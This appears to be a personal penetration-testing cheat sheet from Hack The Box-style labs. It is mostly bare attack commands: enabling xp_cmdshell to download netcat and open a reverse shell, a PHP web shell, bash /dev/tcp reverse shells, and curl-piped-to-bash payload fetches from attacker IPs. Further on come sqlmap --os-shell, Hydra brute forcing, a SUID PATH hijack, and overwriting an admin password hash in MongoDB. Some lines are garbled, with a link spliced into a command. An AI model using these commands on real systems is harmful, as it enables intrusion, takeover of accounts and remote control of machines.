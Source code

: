 https://gtfobins.github.io/

```
└──╼ $feroxbuster -u http://10.129.93.13 -x php,html

nmap -v -sV -p- -oA devops_full 10.10.10.91
searchsploit --nmap -v devops_full.xml
msf auxiliary(scanner/ssh/ssh_enumusers) > run
```


# Linux

## Recon enumeration

```
sudo nmap -sV 10.129.227.248
nmap -sV -sC -p- 10.129.158.230 -oN scan.txt

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u 10.129.93.13
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.129.158.230 -x php
gobuster vhost -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u 10.129.158.230
```

## Foothold

## Privilege escalation

### pe enumeration

```
id
sudo -l
ss -tln // skip service names
ss -tl 
ss -tlpn

Util:
echo "10.129.227.248 thetoppers.htb" | sudo tee -a /etc/hosts

python3 -m http.server 8000

```


## Services

#### lxc

```
sudo apt install snapd
sudo snap install distrobuilder --classic
```

```

#Impacket
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip3 install .
# OR:
sudo python3 setup.py install
# In case you are missing some modules:
pip3 install -r requirements.txt

cd impacket/examples/
python3 mssqlclient.py -h

SELECT is_srvrolemember('sysadmin');

EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell
first as it’s disabled by default:
EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.78/nc64.exe -outfile nc64.exe"
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.78 443"
[xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe)
10.10.14.9 443"
wget http://10.10.14.78:8000/winPEASx64.exe -outfile winPEASx64.exe
https://github.com/int0x33/nc.exe/blob/master/nc64.exe

```

```
FTP:
ftp anonymous@10.129.241.156
anonymous:anonymous

Postgresql:
psql -U christine -h localhost -p 1234
\l \list 
\c \connect ${database}
\dt ##relations
SELECT * FROM flag;

Bruteforce:
hydra -L usernames.txt -p 'funnel123#!#' {target_IP} ssh

```


```
Cloud:
AWS:
apt install awscli
aws configure
aws --endpoint=http://s3.thetoppers.htb s3 ls
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
aws --endpoint=http://s3.thetoppers.htb s3 cp shell. s3://thetoppers.htb
```


#Reverse shell:
echo '<?php system($_GET["cmd"]); ?>' > shell.php
http://thetoppers.htb/shell.php?cmd=id

#!/bin/bash
bash -i >& /dev/tcp/10.10.14.116/4444 0>&1

nc -nvlp 1337

http://thetoppers.htb/shell.php?cmd=curl%2010.10.14.23:8000/rs.sh|bash
python3 -m http.server 8000
python3 -c 'import pty;pty.spawn("/bin/bash")'

#tunneling 
local port forwarding
ssh -L 1234:localhost:5432 christine@{target_IP}

dynamic port forwarding
/etc/proxychains4.conf
ssh -D 1234 christine@{target_IP}
1. Ensure that strict_chain is not commented out; ( dynamic_chain and random_chain should be
commented out)
2. At the very bottom of the file, under [ProxyList] , we specify the socks5 (or socks4 ) host and port
that we used for our tunnel
<SNIP>
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4 127.0.0.1 9050
socks5 127.0.0.1 1234
proxychains psql -U christine -h localhost -p 5432

#Reverse php
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

#tftp
The default configuration file for tftpd-hpa is /etc/default/tftpd-hpa. The default
root directory where files will be stored is /var/lib/tftpboot

curl 'http://{target_IP}/?file=/var/lib/tftpboot/php-reverse-shell.php'


https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

Privilege escalation:
Linux
sudo -l <- try to obtain root
id <- check permissions, additional groups
find / -group bugtracker 2>/dev/null
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker

Commonly noted as SUID (Set owner User ID), the special permission for the user access
level has a single function: A file with SUID always executes as the user who owns the
file, regardless of the user passing the command. If the file owner doesn't have
execute permissions, then use an uppercase S here.
In our case, the binary 'bugtracker' is owned by root & we can execute it as root since
it has SUID set.

/tmp

/bin/sh
chmod +x cat
export PATH=/tmp:$PATH
echo "/bin/sh" > cat

//UNIFI MONGODB
ps aux | grep mongo
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`

crete password
mkpasswd -m sha-512 Password1234
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$pgNniKC2xeXtTtRl$KqIpqj6FI8DGb9dXgc7vUCAeGuCWI3rCzKsopTZU5ncfE1F6XjEf.Faq/AecBR7x/ToDPw7bYrVth3kU3WkzS0"}})'

python3 -m http.server 8000

Foothold:
PHP
~~reverse shells
https://github.com/BlackArch/webshells
/usr/share/webshells/
upload file & look for uploads directory
python3 -c 'import pty;pty.spawn("/bin/bash")'

www-data user: 
lookup for a files and try to login as user
/var/www/html/...

cat /etc/passwd <- check users on server
su USER <- relogin

script /dev/null -c bash //spawn shell

ec9b13ca4d6229cd5cc1e09980965bf7
dd6e058e814260bc70e9bbdef2715849
Foothold:
SQL
sqlmap -u 'http://10.129.241.156/dashboard.php?search=any+query' --cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1" --os-shell
bash -c "bash -i >& /dev/tcp/10.10.14.116/1234 0>&1"
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
/var/www/data checkout
 sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf


